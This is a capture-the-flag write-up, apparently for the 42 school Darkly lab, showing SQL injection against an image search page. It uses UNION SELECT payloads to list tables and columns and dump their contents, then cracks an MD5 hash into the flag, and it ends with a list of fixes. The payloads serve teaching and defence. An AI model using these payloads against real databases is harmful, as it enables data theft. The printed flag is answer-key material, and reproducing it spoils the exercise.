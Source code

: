 # SQL Injection (Advanced) 🏴<!-- omit in toc -->

```txt
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

- [Location](#location)
- [Vulnerability](#vulnerability)
- [Method](#method)
- [Tools & References](#tools--references)
- [Fix](#fix)

## Location

'http://\<ip-address>:80/?page=searchimg'

## Vulnerability

SQL Injectable text input in the member search. An
injectible database will allow a person to obtain sensitive information.

## Method

I entered `1 OR 1` in the search box. This returned:

```txt
ID: 1 or 1
Title: Nsa
Url : https://www.nsa.org/img.jpg

ID: 1 or 1
Title: 42 !
Url : https://www.42.fr/42.png

ID: 1 or 1
Title: Google
Url : https://www.google.fr/google.png

ID: 1 or 1
Title: Obama
Url : https://www.obama.org/obama.jpg

ID: 1 or 1
Title: Hack me ?
Url : borntosec.ddns.net/images.png

ID: 1 or 1
Title: tr00l
Url : https://www.h4x0r3.0rg/tr0ll.png
```

So I start running commands to find just one query, I entered 5 (in case it is lucky) in the box and this returns:

```txt
ID: 5
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```

The first thing to do is to find out which tables are present and which coloumns. I ran the query:

```sql
5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
```

```txt
ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
Title: id
Url : list_images

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
Title: url
Url : list_images

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
Title: title
Url : list_images

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
Title: comment
Url : list_images
```

We have found the list_ table and the columns therein. We are interested to see the contents now so we query:

```sql
5 UNION SELECT title, comment FROM list_images
```

This will return:

```txt
ID: 5 UNION SELECT title, comment FROM list_images
Title: Hack me ?
Url : borntosec.ddns.net/images.png

ID: 5 UNION SELECT title, comment FROM list_images
Title: An image about the NSA !
Url : Nsa

ID: 5 UNION SELECT title, comment FROM list_images
Title: There is a number..
Url : 42 !

ID: 5 UNION SELECT title, comment FROM list_images
Title: Google it !
Url : Google

ID: 5 UNION SELECT title, comment FROM list_images
Title: Yes we can !
Url : Obama

ID: 5 UNION SELECT title, comment FROM list_images
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?

ID: 5 UNION SELECT title, comment FROM list_images
Title: Because why not ?
Url : tr00l
```

This is an MD5 hash is:
`1928e8083cf461a51303633093573c46: albatroz`

The SHA256 for `albatroz: f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

## Tools & References

- [hashes.com](https://hashes.com/en)
- [W3Schools.com](https://www.w3schools.com/sql/sql_injection.asp)
- [Cheatsheet Series](https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html)
- [Owasp](https://owasp.org/www-community/attacks/SQL_Injection)
- [Portswigger - Union Attacks](https://portswigger.net/web-security/sql-injection/union-attacks)
- [SQL Injection .NET](https://www.sqlinjection.net/table-names/)
- [PT Security](https://www.ptsecurity.com/ww-en/analytics/knowledge-base/how-to-prevent-sql-injection-attacks/)

## Fix

- Input Validation
  - Use Regular Expressions as whitelist
  - If values are fixed use radios and buttons
- Use internal checks like $(isNumber) or $(isString) depending on the input
- Parametrised Querys like PDO for php or Prepared Statements in general.
- Escaping the characters eg. `mysqli_real_escape_string($string)`

There are other methods like Web Application Firewalls, but the ones listed above are the best places to start.

Explain the basic functioning of the vulnerability

Demonstrate & Compare that the two flags are indeed identical

